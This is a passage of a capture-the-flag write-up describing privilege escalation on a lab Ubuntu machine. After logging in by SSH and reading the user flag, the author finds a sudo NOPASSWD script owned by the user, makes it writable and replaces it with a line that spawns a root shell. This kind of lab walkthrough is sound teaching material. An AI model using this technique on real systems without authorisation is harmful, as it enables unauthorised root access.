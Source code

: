```bash
ssh alex@<IP>
# Password: <redacted3>

alex@ubuntu:~$ ls
# Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt
# <redacted4>
```

## PrivEsc time

We got the first flag, let's now look into root.txt, like 99% of challenges it's always in the same place with the same strategy, we need to find a privilege escalation and access `/root/root.txt`.

First step look at our permissions:

```bash
id
# uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
alex@ubuntu:~$ sudo -l
# Matching Defaults entries for alex on ubuntu:
#     env_reset, mail_badpass,
#     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

# User alex may run the following commands on ubuntu:
#     (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

We are a sudoer with pretty limited access, though we do have a NOPASSWD access as root to the `/etc/mp3backups/backup.sh` script.

<details><summary>&nbsp;<h2>Going mad</h2></summary></details>

## Correct solution

If you have more than 4 brain cells unlike me, you would have just done the following:

```bash
ls -l /etc/mp3backups/backup.sh
# -r-xr-xr-- 1 alex alex 1083 Dec 30  2020 /etc/mp3backups/backup.sh
```

Seen that our current user is the owner of this file, which means we can do whatever we want, let's say for example give ourselves write permission

```bash
chmod +w /etc/mp3backups/backup.sh
```

And just changed the script to a simple sudo shell:

```bash
#!/bin/bash
sudo /bin/bash
```
